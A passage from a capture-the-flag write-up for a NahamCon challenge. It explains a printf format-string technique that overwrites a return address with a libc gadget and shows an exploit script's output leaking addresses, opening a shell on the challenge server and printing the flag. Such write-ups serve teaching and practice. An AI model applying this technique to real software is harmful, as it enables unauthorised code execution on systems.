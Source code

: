 
Add three more books to our list, each book will emit a 16-bit integer of spaces to be counted by `printf` and stored into the locations set by our _name_, IOW the return address.

> The 4th book (`bookend`) is there just as something to wait for to avoid filling the screen with garbage (so we can have nice things like pretty write ups).

Output:

```bash
# ./exploit.py REMOTE=1
[+] Opening connection to challenge.nahamcon.com on port 30933: Done
[*] libc.address: 0x7faee88ad000
[*] libc.sym.gadget: 0x7faee8990b31
[*] rsp: 0x7fff7315faa0
[*] ret: 0x7fff7315fac8
[*] Switching to interactive mode

$ cat flag.txt
flag{1b0d16889d3b8a1cb31232763b51a03d}
```
